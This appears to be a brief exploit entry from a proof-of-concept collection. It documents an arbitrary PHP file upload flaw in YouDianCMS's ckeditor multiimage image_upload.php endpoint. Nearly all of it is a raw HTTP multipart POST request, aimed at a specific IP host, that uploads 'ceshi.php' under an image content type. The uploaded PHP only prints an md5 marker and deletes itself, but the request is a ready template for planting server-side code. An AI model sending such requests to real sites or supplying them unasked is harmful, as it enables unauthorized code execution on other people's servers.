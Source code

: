 # youdiancms_image_upload_php_fileupload
from: https://mp.weixin.qq.com/s/XCiJvX9Ys2q9szXh4Hnxag
2024.02.26 @2
```
POST /Public/ckeditor/plugins/multiimage/dialogs/image_upload.php HTTP/1.1
Host: 43.138.240.106:9876
Content-Type: multipart/form-data;boundary=----WebKitFormBoundarydAPjrmyKewWuf59H
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 222

------WebKitFormBoundarydAPjrmyKewWuf59H
Content-Disposition: form-data; name="files"; filename="ceshi.php"
Content-Type: image/jpg

<?php echo md5('666');unlink(__FILE__);?>
------WebKitFormBoundarydAPjrmyKewWuf59H--
```
